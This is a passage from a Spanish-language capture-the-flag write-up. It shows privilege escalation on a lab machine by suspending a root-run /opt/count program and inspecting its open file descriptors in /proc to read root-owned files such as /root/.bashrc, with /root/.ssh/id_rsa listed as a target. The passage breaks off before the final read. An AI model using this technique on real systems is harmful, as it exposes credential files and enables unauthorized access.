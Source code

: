 ```bash
dasith@secret:/home$ /opt/count 
Enter source file/directory name: /root/.ssh
drwx------ ..
-rw------- authorized_keys
-rw------- id_rsa
drwx------ .
-rw-r--r-- id_rsa.pub
```

Podemos ver esas caracteristicas de cualquier archivo o directorio porque estamos bajo un contexto de root. Además podemos guardar el output en un archivo. 

Podemos aprovecharnos de esto gracias a los descriptores de archivos de la siguiente forma. 

> undescriptor de archivo es un número entero que identifica un archivo abierto por un proceso. Cada proceso tiene su propia tabla de descriptores de archivo, que mantiene un seguimiento de los archivos que el proceso ha abierto y sus atributos, como la posición actual del puntero de lectura/escritura, los permisos de acceso y el modo de apertura.


Si ponemos el programa en suspensión, podemos ver información sobre los archivos que se están abriendo desde "/proc/pid/fd". Para leer el archivo debememos tener permisos, eso quiere decir que del directorio de root solo prodriamos leer.

```bash
-rw-r--r-- .viminfo
drwxr-xr-x ..
-rw-r--r-- .bashrc
lrwxrwxrwx .bash_history
-rw-r--r-- .profile
```

Podemos leer esos archivos, vamos a hacer una prueba. Vamos a leer el .bashrc.

```bash
dasith@secret:~$ /opt/count 
Enter source file/directory name: /root/.bashrc

Total characters = 3106
Total words      = 537
Total lines      = 100
Save results a file? [y/N]: ^Z
[5]+  Stopped                 /opt/count
```

Hemos dejado el proceso en segundo plano, ahora tenemos que saber su identificador.

```bash
dasith@secret:~$ ps aux | grep count
root         824  0.0  0.1 235680  7520 ?        Ssl  10:46   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1706  0.0  0.0   2488   584 pts/0    T    11:59   0:00 /opt/count
dasith      1708  0.0  0.0   6432   732 pts/0    S+   12:00   0:00 grep --color=auto count
```

El PID del proceso es "1706" ahora podemos acceder a el en la ruta /proc/1706/fd, si vemos listamos los archivos podemos ver enlaces simbolicos.
